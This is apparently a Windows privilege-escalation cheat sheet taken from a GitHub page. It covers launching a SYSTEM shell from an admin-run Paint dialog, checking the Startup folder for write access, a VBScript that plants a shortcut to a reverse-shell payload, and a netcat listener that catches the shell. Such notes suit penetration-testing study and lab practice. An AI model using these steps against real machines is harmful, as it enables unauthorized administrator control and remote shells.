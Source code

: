 ## Applications

### Insecure GUI Applications
On some older versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges.

As an example, a shortcut of Microsoft paint is found, and when executed, runs with administrator privileges, which we can confirm with the following command.
```powershell
tasklist /V | findstr mspaint.exe

mspaint.exe                   4312 RDP-Tcp#0                  2     29,184 K Running         WIN-QBA94KB3IOF\admin
```

In paint, click `file` and `open`, then click in the navigation input and type the following command to spawn a SYSTEM shell.
```powershell
file://c:/windows/system32/cmd.exe
```

### Startup Applications
Windows has a startup directory for apps that start for all users when they log in, if files can be created in that startup directory, escalation of privileges may be possible when an administrator logs in.

Use `accesschk` to check for write permissions on the `StartUp` directory.
```powershell
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

Startup apps in the startup directory must be shortcuts, and a `vbscript` can be created to create a shortcut to a reverse shell payload.
```powershell
#vbscript file
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

Use `cscript` to run the script.
```powershell
cscript C:\PrivEsc\CreateShortcut.vbs
```

Start a listener on the attacker machine and wait for an administrator to log in to spawn a SYSTEM shell.
```bash
nc -lvnp 53
```

### Installed Applications
Check Google and exploit-db for exploits.
> https://www.exploit-db.com/
